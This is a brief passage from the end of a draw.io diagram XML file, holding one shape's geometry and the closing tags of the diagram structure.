          <mxGeometry x="-1020" y="2540" width="390" height="80" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
